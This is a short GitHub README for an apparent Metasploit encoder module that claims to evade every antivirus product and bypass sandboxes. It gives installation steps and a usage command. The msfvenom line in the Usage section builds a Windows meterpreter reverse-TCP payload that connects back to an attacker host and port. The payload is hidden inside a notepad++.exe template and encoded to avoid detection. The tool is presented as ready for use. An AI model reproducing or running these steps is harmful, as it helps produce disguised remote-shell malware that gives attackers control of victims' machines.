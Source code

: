 # Metasploit Encryption

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.

![alt tag](https://github.com/MrMugiwara/Metasploit-Encrypter/blob/master/msfencrypt.png)


# Installation
-----------

      git clone https://github.com/MrMugiwara/Metasploit-Encryption.git

      cd Metasploit-Encryption

Copy msfencrypt.rb in metasploit/modules/encoders/x86/

      cp msfencrypt.rb /opt/metasploit-framework/modules/encoders/x86/

# Usage
-----------

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/msfencrypt -o output.exe

